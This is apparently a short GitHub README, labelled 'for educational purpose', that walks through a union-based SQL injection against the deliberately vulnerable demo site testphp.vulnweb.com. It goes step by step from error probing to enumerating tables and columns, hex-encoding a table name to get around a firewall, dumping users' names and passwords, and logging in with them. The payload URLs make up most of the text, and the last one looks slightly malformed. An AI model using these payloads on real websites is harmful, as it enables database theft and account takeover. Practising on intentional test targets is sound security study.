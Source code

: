 # "SAMPLE" How to Extract_database_From_Website

# ONLY FOR EDUCATIONAL PURPOSE ONLY

## Get the database of a website and steal the credentials of users from website vulnerability

### Steps to Perform:

* Open the website (http://testphp.vulnweb.com/).
* Select artists→r4w8173
* Add a special character after the URL ( ‘ ). If it shows an error, then the website is vulnerable to SQL Injection. (http://testphp.vulnweb.com/artists.php?artist=1’)
* Find the vulnerable columns of the website using the below commands (http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,3) 2 and 3 are vulnerable columns. Let us select column 2.
* Find the database name of the website using the command: (http://testphp.vulnweb.com/artists.php?artist=-1 union select 1, database(), 3)
* Find the table names in the database using the command: (http://testphp.vulnweb.com/artists.php?artist=-1 union select 1, group_concat(table_name),3 from information_schema.tables where table_schema=database())
* Select the user's table to view the user's information.
* Find the columns in a table using the command. Change the user's table name to encoding characters to bypass the firewall by (https://codebeautify.org/string-hex-converter)
* (http://testphp.vulnweb.com/artists.php?artist=-1 union select 1, group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273)
* We need the uname and pass to find the information. (http://testphp.vulnweb.com/artists.php?artist=-1 union select 1, group_concat(uname,0x3a, pass) from users
* Try to login with username and password into the website.
* Done
## Congratulations!


